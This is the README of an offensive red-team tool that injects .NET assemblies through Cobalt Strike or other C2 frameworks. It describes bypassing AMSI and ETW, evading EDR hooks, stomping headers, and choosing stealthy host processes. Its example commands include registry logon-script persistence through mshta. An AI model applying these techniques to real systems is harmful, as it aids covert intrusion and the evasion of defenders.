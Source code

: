 ## Description:
ExecuteAssembly is an alternative of CS execute-assembly, built with C/C++ and it can be used to Load/Inject .NET assemblies by; reusing the host (spawnto) process loaded CLR Modules/AppDomainManager, Stomping Loader/.NET assembly PE DOS headers, Unlinking .NET related modules, bypassing ETW+AMSI, avoiding EDR hooks via NT static syscalls (x64) and hiding imports by dynamically resolving APIs via superfasthash hashing algorithm. 

## TLDR (Features):
- CLR related modules unlinking from PEB  data structures. (use MS "ListDLLs" utility instead of PH for confirmation)
- .NET Aseembly and Reflective DLL PE DOS headers stomping (specific bytes/offsets).
- Use of static hardcoded syscalls for bypassing EDR Hooks. (x64 support only for now, from WinXP to Win10 19042)
- CLR "AppDomain/AppDomainManager" enumeration and re-use (ICLRMetaHost->EnumerateLoadedRuntimes), just set the spawnto/host process to a known Windows .NET process.
- Dynamic Resolution of WIN32 APIs (PEB) using APIs corresponding hash (SuperFastHash)
- AMSI and ETW patching prior to loading .NET assemblies.
- .NET assembly bytes parsing and scanning for the CLR version to load/use.
- No use of GetProcAddress/LoadLibrary/GetModuleHandle for ETW bypass.
- CLR Hosting using v4 COM API & Reflective DLL injection


## Usage:
* <b><u>x64(syscalls):</u></b> this version depends mainly on the use of static syscalls to bypass EDR hooks, you can use this version to build the x64 version of the DLL only (x64 support only for now).
* <b><u>x86|x64(PEB):</u></b>  retrieves required API addresses dynamically at runtime by walking the PEB modules EAP tables and resolving APIs via superfasthash hash. however doesn't account for EDR hooks placed either on kernel32.dll or ntdll.dll, you can use this version to build both the x86 and x64 DLLs or only the x86 DLL and use x64(syscalls) version for building the x64 DLL to account for common EDR hooks.
* Build the required DLLs using VS2017 and/or Windows SDK 10.0.17134.0 (or compatible sdk versions).
  
* Make sure gzip is installed and the following artifacts are placed within the same folder then just load the aggressor script "ExecuteAssembly.cna":
   * ExecuteAssembly.cna
   * ExecuteAssembly-x64.dll
   * ExecuteAssembly-x86.dll
   * CLI Options:

      ``--dotnetassembly: .NET Assembly to load/inject.``

      ``--assemblyargs: .NET assembly arguments.``

      ``--unlink-modules: Unlink .NET related modules such as CLR/MsCoree related DLLs from PEB data structures.``

      ``--stomp-headers: Stomp .NET assembly and reflective DLL PE DOS headers.``

      ``--etw: Bypass event tracing on windows (ETW).``

      ``--amsi: Bypass AMSI.``

      ``--spawnto: Choose spawnto process, list of .NET binaries loading the CLR by default when executed:``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- PresentationHost.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- stordiag.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- ScriptRunner.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- caitstatic.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- Microsoft.Uev.SyncController.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- TsWpfWrp.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- UevAgentPolicyGenerator.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- UevAppMonitor.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- FileHistory.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- UevTemplateBaselineGenerator.exe``<br>
         &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;``- UevTemplateConfigItemGenerator.exe``<br>

* Check spawnto-list.txt for extra MS binaries loading the the CLR by default and are good candidates to set as a spawnto. (would avoid the known LOLBins unless if it is a dev's machine may be)

## Examples:	
- ``ExecuteAssembly --dotnetassembly /tmp/Seatbelt.exe --assemblyargs LogonSessions --unlink-modules --stomp-headers --amsi --etw --spawnto PresentationHost.exe``<br><br>
- ``ExecuteAssembly --amsi --etw --unlink-modules --stomp-headers --dotnetassembly /tmp/ghostpack/SharPersist.exe --assemblyargs -t reg -c "C:\Windows\SysWow64\mshta.exe C:\Users\admin\Downloads\Test2.hta" -k logonscript -m add --spawnto FileHistory.exe``<br><br>
- ``ExecuteAssembly --unlink-modules --stomp-headers --dotnetassembly /tmp/ghostpack/SharPersist.exe --assemblyargs -t reg -k "logonscript" -v "C:\Windows\SysWow64\mshta.exe C:\Users\admin\Downloads\Test.hta" -m remove --spawnto FileHistory.exe``<br><br>
- ``ExecuteAssembly --unlink-modules --amsi --dotnetassembly /tmp/ghostpack/SharpWMI.exe --assemblyargs action=query computername=localhost query="select * from win32_service" --spawnto FileHistory.exe``<br><br>
- ``ExecuteAssembly --amsi --etw --dotnetassembly /tmp/ghostpack/SharpWMI.exe --assemblyargs action=query query="select * from win32_process" --spawnto PresentationHost.exe``

## C2 Support:
Was created and tested mainly on cobalt strike, however it can be used with other C2 frameworks as well (MSF ..etc), just keep in mind that the reflective DLL DLLMAIN is expecting the one-liner payload as a parameter (lpReserved) in the following format (with no ".");
*  `AMSI_FLAG|ETW_FLAG|STOMPHEADERS_FLAG|UNLINKMODULES_FLAG|LL_FLAG.LENGTH_FLAG.B64_ENCODED_COMPRESSED_PAYLOAD [SPACE SEPARATED ARGUMENTS]`
   *  `AMSI_FLAG`: 0|1 (either 0 or 1)
   *  `ETW_FLAG`: 0|1
   *  `STOMPHEADERS_FLAG`: 0|1
   *  `UNLINKMODULES_FLAG`: 0|1
   *  `LENGTH_FLAG`: .NET assembly size in bytes
   *  `LL_FLAG`: length_of(LENGTH_FLAG) (just bear with me here or pretend you didn't read this)
   *  `B64_ENCODED_COMPRESSED_PAYLOAD`: Gzip compressed and base64 encoded .NET assembly.
   *  `[SPACE SEPARATED ARGUMENTS]`: .NET assembly arguments

## TODO:
- Testing with malleable profiles with different options set. (userwx, startrwx ..etc.)
- An alternative of RFLL, BOF + Named Pipes may be (not sure about long-duration running tasks)
- x86 support for static syscalls.
- Bug fixing and cleanup of any dangling pointers or mem-leaks i missed :p


## Known Issues:
- Support for SharpHound v2 and v3 (v2 used to work just fine, need to figure out what changed).
- .NET assembly size limitation ( < 1MB)

## Credits/References:
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/jthuraisamy/SysWhispers
* https://github.com/etormadiv/HostingCLR
* https://github.com/outflanknl/TamperETW/
* https://github.com/LloydLabs/Windows-API-Hashing
* http://www.rohitab.com/discuss/topic/42077-module-pebldr-hiding-all-4-methods-x64/
* https://gist.github.com/christophetd/37141ba273b447ff885c323c0a7aff93


